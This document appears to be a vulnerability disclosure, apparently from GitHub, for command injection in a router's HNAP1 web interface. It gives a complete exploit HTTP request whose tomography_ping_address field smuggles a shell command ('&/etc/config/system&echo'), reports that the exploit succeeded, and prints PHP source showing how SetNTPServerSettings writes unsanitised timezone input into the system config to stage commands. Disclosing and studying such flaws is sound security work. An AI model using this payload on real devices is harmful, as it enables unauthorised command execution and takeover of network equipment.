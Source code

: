 Exploit the `SetNetworkTomographySettings`  interface to execute `/etc/config/system` file.  

```HTTP
POST /HNAP1/ HTTP/1.1
Host: 192.168.0.1
Content-Length: 219
Accept: application/json
DNT: 1
HNAP_AUTH: 67A1E2B9863DEADEE016931DEC7A09BC 1680770287528
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkTomographySettings"
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/111.0.0.0 Safari/537.36
Content-Type: application/json
Origin: http://192.168.0.1
Referer: http://192.168.0.1/Diagnosis.html?t=1680770228118
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,or;q=0.7
Cookie: PHPSESSID=b0dfed1882f1fe6eb8955ffd4b9a00c4; uid=5IOJOB9A; PrivateKey=8F7E2C71E8AC7E3D5245B1CE1910671A
Connection: close

{"SetNetworkTomographySettings":{"tomography_ping_address":"http://example.com/'&/etc/config/system&echo'1","tomography_ping_number":"1","tomography_ping_size":"4","tomography_ping_timeout":"","tomography_ping_ttl":""}}
```

![image-20230406172745213](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202304061847898.png)

And the exploit was successfully.

![img-202304061847937](https://raw.githubusercontent.com/Tyaoo/PicBed/master/img/202304061847937.png)

### Additional information

The `system_time_timezone` parameter in `SetNTPServerSettings` interface allows us to input arbitrary words in corresponding config file.

```php
# control/SetNTPServerSettings.php 
class SetNTPServerSettings extends GetMultipleHNAPs
{
    function __construct($act_val)
    {
        parent::__construct($act_val);
    }

    public function actionIndex()
    {
        $option = $this->act_val;
        $system_info = read_cfg_info("system");
        $system_info = add_or_update_option_info($system_info, "system", "", "timezone", $option['system_time_timezone']); // input system_time_timezone parameter
        save_cfg_info("system", $system_info); // save file
        exec("/etc/init.d/system  restart");
        $result['SetNTPServerSettingsResult'] = "OK";
        $this->api_response(__CLASS__, $result);
    }
}
```

